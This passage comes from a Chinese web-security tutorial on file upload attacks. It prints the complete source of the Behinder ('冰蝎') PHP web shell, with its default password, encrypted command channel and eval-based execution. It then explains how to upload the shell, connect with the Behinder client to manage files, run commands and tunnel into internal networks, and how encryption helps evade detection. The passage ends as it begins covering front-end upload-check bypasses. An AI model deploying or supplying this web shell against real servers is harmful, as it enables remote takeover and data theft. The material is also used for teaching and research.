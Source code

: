 @error_reporting(<span class="hljs-number">0</span>);
session_start();
&nbsp; &nbsp; $key=<span class="hljs-string">"e45e329feb5d925b"</span>; <span class="hljs-comment">//该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond</span>
	$_SESSION[<span class="hljs-string">'k'</span>]=$key;
	$post=file_get_contents(<span class="hljs-string">"php://input"</span>);  <span class="hljs-comment">// 读取上传文件内容</span>
	<span class="hljs-keyword">if</span>(!extension_loaded(<span class="hljs-string">'openssl'</span>))
	{
		$t=<span class="hljs-string">"base64_"</span>.<span class="hljs-string">"decode"</span>;
		$post=$t($post.<span class="hljs-string">""</span>);   <span class="hljs-comment">// 如果没有openssl扩展就调用base64_decode</span>
		
		<span class="hljs-keyword">for</span>($i=<span class="hljs-number">0</span>;$i&lt;strlen($post);$i++) {
&nbsp; &nbsp; 			 $post[$i] = $post[$i]^$key[$i+<span class="hljs-number">1</span>&amp;<span class="hljs-number">15</span>];&nbsp;
&nbsp; &nbsp; 			}
	}
	<span class="hljs-keyword">else</span>
	{
        <span class="hljs-comment">// 如果有openssl扩展就采用AES128位解密，因为冰蝎是加密传输的</span>
		$post=openssl_decrypt($post, <span class="hljs-string">"AES128"</span>, $key);
	}
&nbsp; &nbsp; $arr=explode(<span class="hljs-string">'|'</span>,$post);
&nbsp; &nbsp; $func=$arr[<span class="hljs-number">0</span>];
&nbsp; &nbsp; $params=$arr[<span class="hljs-number">1</span>];
	<span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">C</span></span>{<span class="hljs-keyword">public</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__invoke</span>(<span class="hljs-params">$p</span>) </span>{<span class="hljs-keyword">eval</span>($p.<span class="hljs-string">""</span>);}}
&nbsp; &nbsp; @call_user_func(<span class="hljs-keyword">new</span> C(),$params);
<span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="23828">上传成功后得到地址：</p>
<pre class="lang-java" data-nodeid="23829"><code data-language="java">http:<span class="hljs-comment">//127.0.0.1/hackable/uploads/shell.php</span>
</code></pre>
<p data-nodeid="23830">使用以下命令打开冰蝎客户端：</p>
<pre class="lang-java" data-nodeid="23831"><code data-language="java">java -jar Behinder_v3<span class="hljs-number">.0</span>_Beta6_linux.jar
</code></pre>
<p data-nodeid="23832">右击菜单选择“新增”，把 shell.php 地址输入 URL，同时输入 shell.php 中的连接密码（此处我使用默认密码“rebeyond”），点击“保存”。</p>
<p data-nodeid="23833"><img src="https://s0.lgstatic.com/i/image2/M01/09/6E/CgpVE2AOpVGASgILAAF0TN6o8cU323.png" alt="图片5.png" data-nodeid="23966"></p>
<p data-nodeid="23834">双击保存的 URL 去连接 shell.php，如果成功的话，会打开 phpinfo，同时在右上角显示“已连接”。</p>
<p data-nodeid="23835"><img src="https://s0.lgstatic.com/i/image/M00/91/7B/Ciqc1GAOpWeAOjNkAAIfIjLZ0Y0133.png" alt="图片6.png" data-nodeid="23970"></p>
<p data-nodeid="23836">上面有很多附带功能，你可以管理服务器文件：</p>
<p data-nodeid="23837"><img src="https://s0.lgstatic.com/i/image2/M01/09/6B/Cip5yGAOpYGAMOzZAAKQwoGuNvo092.png" alt="图片7.png" data-nodeid="23974"><br>
可以执行命令：</p>
<p data-nodeid="23838"><img src="https://s0.lgstatic.com/i/image2/M01/09/6E/CgpVE2AOpZKAKj6EAAGxJFxWHbw029.png" alt="图片8.png" data-nodeid="23979"></p>
<p data-nodeid="23839">还有数据库管理、执行自定义代码以及内网穿透时常用的端口映射、Socks 隧道等等功能。</p>
<p data-nodeid="23840">之前使用“菜刀”的人比较多，也导致不少网站增加了对其的检测规则，后来不少人改用通信加密与设置连接密码的“冰蝎”，也有人基于此做了二次开发，做一些检测特征清除，从而绕过一些安全系统的查杀。</p>
<p data-nodeid="23841"><strong data-nodeid="23985">最后再提醒下，本文提及的相关工具仅限安全研究学习之用，请勿用于任何非法途径，否则后果自负。</strong></p>
<h3 data-nodeid="23842">绕过上传限制</h3>
<h4 data-nodeid="23843">1.禁用 JS</h4>
<p data-nodeid="23844">很多时候，开发在限制上传文件格式时，仅是在前端 JS 上做简单的文件后缀名判断，若不是就中断处理。对于这种情况安装个 NoScript 插件，禁用 JS 再上传即可绕过。</p>
<h4 data-nodeid="23845">2.篡改数据包</h4>